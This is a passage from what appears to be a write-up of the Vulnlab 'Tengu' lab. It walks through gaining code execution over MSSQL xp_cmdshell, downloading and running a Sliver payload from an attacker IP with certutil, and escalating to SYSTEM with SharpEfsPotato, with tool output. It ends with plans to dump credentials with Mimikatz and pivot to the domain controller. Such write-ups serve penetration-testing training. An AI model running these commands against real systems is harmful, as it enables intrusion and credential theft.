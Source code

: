 I also tested for AMSI with `xp_cmdshell "powershell -e SW52b2tlLU1pbWlrYXR6"`, it seems that AV is not enabled on this machine. In that case we can try to curl our Sliver payload to this machine and execute it.

```
SQL (TENGU\t1_m.winters  dbo@master)> xp_cmdshell powershell "cd ..\..; mkdir temp; cd C:\temp; certutil.exe -urlcache -f http://10.8.0.173:9001/sql_tengu.exe sql_tengu.exe; .\sql_tengu.exe"
```

We should now have proper code execution as the `gMSA01$` user, as denoted below.

![](/images/vulnlab/tengu-vl/l.jpg)

# Impersonating SYSTEM with SharpEfsPotato

If you'll notice, this user has `SeImpersonatePrivilege`, meaning we can impersonate SYSTEM and spawn a named pipe onto PowerShell, which we can then run our `sql_tengu` binary again to get a session as SYSTEM. We'll use [SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato) for this and can get a SYSTEM shell relatively easily. Note that I tried doing this through Sliver's UI, and was running into a token error. I dropped it locally to `sql.tengu.vl` and it seemed to work as intended.

```
PS C:\temp> .\SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "cd C:\temp; .\sql_tengu.exe" 

SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/b9f1bb62-6bd4-4aa0-90d1-cca939fb5983/\b9f1bb62-6bd4-4aa0-90d1-cca939fb5983\b9f1bb62-6bd4-4aa0-90d1-cca939fb5983
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
[*] Session 2debc8b7 sql_tengu - 10.10.138.230:49693 (SQL) - windows/amd64 - Tue, 28 May 2024 14:34:18 EDT
```

We can now view the second flag which is within `C:\Users\Administrator\Desktop`.

# Pivoting to the DC

Now that we have a SYSTEM shell on this machine, we can essentially dump all credentials on this machine with [Mimikatz](https://github.com/ParrotSec/mimikatz). Before we do this though, I went to verify if there were any users that we could potentially look at to pivot to the DC.

![](/images/vulnlab/tengu-vl/m.jpg)
